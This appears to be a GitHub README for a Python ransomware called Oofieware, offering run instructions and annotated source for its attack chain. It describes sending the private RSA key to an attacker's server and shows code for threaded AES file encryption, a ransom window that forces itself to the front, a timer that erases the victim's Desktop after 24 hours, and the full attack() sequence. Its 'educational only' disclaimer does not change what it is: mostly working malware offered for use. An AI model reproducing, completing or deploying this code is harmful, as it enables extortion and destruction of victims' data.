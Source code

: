 # Oofieware - A ransomware in Python

![RansomWindow](./assets/ransom.png)

## :pushpin: Quick Start

First, make sure the `.show_sym_key` method in `oofieware.py` is commented out. This method is meant only for debugging purposes, as it writes the symmetric AES key used to encrypt the files to the Desktop.

Run oofieware.py.

## :biohazard: Introduction 

This is a ransomware purely written in Python. It contains all the features a real ransomware might need, such as sending the private RSA key to a remote server, automatically erasing the system after 24 hours if a ransom is not paid, and of course a window with a skull that refuses to go away.

I wrote this as I've been hearing of ransomware for sometime, but never tried to write it myself. So I finally overcame my procrastination and wrote this.

Note that this ransomware is meant for EDUCATIONAL purposes only. In the process of writing this, I educated myself on how ransomware code works, and had to think from the perspective of a malicious actor to make it as realistic as possible. I do not support or condone any criminal activity, and I am not responsible for the actions of anyone who might use this.

Before we delve into the code, special thanks to [@w3w3w3](https://github.com/ncorbuk) for inspiring me to write this. I took reference from his ransomware, though of course I added some of my own features and ways of doing things. The things we can learn from the code of others never ceases to amaze me.

## :computer: Diving into the code

The ransomware is written using OOP, and all the methods are defined in a central class. Let's take a look at some of the methods. I will not be going through everything, only the parts I feel needs more explaining.

Firsly, in `__init__`, there is an arg called gen_rsa that defaults to True. If set to False, the attacker can ship the ransomware with a preset public key, which is used to encrypt the AES-256 symmetric key which was used to encrypt the vistim's files. If left as the default, the victim's machine is used to generate the RSA keys, the private one of which will be sent via a POST request to the attacker's server.

### gen_sym_key()

```py
secure_pw = os.urandom(32)
salt = os.urandom(16)

kdf = PBKDF2HMAC(
    algorithm=hashes.SHA256(),
    length=32,
    salt=salt,
    iterations=500000,
)

self.key = base64.urlsafe_b64encode(kdf.derive(secure_pw))
```

For `gen_sym_key()`, I used this method to generate the AES-256 key instead of directly using Fernet.generate_key() as this gives a more secure key.

### crypt_system()

```py
if not (os.stat(file_path).st_size > self.LARGE_SIZE):
    self.crypt_file(file_path)
else:
    t = threading.Thread(target=self.crypt_file, args=(file_path,))
    self.threads.append(t)
    t.start()
```

This snippet checks the size of the file. If the file is larger than `self.LARGE_SIZE` (which is defined as 50 mil bytes, or 50mb), the encryption for that file is started in a separate thread to improve efficiency.

### wait_till_finish()

As can be seen in the example above, each thread is appended to the array `self.threads`.

```py
def wait_till_finish(self):
    for thr in self.threads:
        thr.join()

    self.threads = []
```

The method I originally set to directly run after crypt_system was `enc_key()`, which encrypts the symmetric key with the public key. And it sets the `self.encrypter` object, which is used to encrypt files, to none. This causes a potential exception as when the `self.encrypter` object is set to None, one/multiple of the threads used to encrypt files > 50MB may still be running, so setting the `self.encrypter` object to None stops the encryption of these large files and causes an exception. Hence, I added this `wait_till_finish` method, which takes the threads previously appended to `self.thread`s and applies the `.join()` method to them, effectively blocking the main loop from proceeding to `enc_key` until all the large files have been encrypted as well. This prevents the exception and ensures that the encryption is completed. 

`self.threads` is then set to None to facilitate later decryption of the system.

### elevate_ransom_window()

```py
while True:
    topWindow = pg.getActiveWindow()
    if topWindow.title != "Ransom Note":
        try:
            win = pg.getWindowsWithTitle('Ransom Note')[0]
            win.minimize()
            win.restore()
        except:
            continue
    sleep(10) # take away completely to annoy the fuck out of victim
```

This constantly makes the ransom window the top window with fullscreen enabled. However, for debugging purposes, a sleep(10) is introduced. If this sleep(10) is removed, the victim's computer would be essentially inoperable due to this window repeatedly forcing itself to the front. At least until perhaps the victim shuts down the computer. Still, that does not change the fact that their files would already be encrypted, as the ransom window only shows itself WHEN all files have been encrypted.

Note that `elevate_ransom_window` is started in a separate thread and is started before `show_ransom_window()`, so that it does not interfere with the blocking call `window.mainloop` that is used in `show_ransom_window()`. The same is true for the method `detect_dec_key`.

### detect_dec_key()

This method is also called in a separate thread before `show_ransom_window()`. It scans the victim's Desktop every 5 seconds to check if a decryption key has been given, and if one is given, the decryption of the files will begin.

### show_ransom_window() and erase_system()

`show_ransom_window` shows the ransom window, which is made using the python module [Tkinter](https://docs.python.org/3/library/tkinter.html). However, there is one part I would like to explain.

```py
eraseTimer = threading.Timer(60*60*24, self.erase_system)
eraseTimer.start()
```

```py
def erase_system(self):
    for root, dirs, files in os.walk(self.Desktop, topdown = True):
        try:
            shutil.rmtree(os.path.join(root, dirs))
        except OSError as e:
            pass
```

This starts a timer in a separate thread, a timer that erases the victim's entire Desktop and all the folders and files inside it after 24 hours, if the ransom is not paid. The erase_system() is what will be called after 24 hours.

### The Order

```py
def attack():
    oof = oofieWare(gen_rsa = True)
    oof.gen_sym_key()
    oof.gen_rsa_keypair()
    oof.crypt_system()
    oof.show_sym_key() # for debugging purposes, DON'T use this line irl
    oof.wait_till_finish()
    oof.encrypt_key()
    elevate = threading.Thread(target = oof.elevate_ransom_window)
    elevate.start()
    detect = threading.Thread(target = oof.detect_dec_key)
    detect.start()
    oof.show_ransom_window()
    
attack()
```

Methods should be called in the pre-defined order to prevent any unexpected occurences. Note that `show_sym_key()` is only for debugging and should not be used in an actual attack.

## :keyboard: Fin

I hope you find this useful. Take care and remember not to run this by accident on your host OS!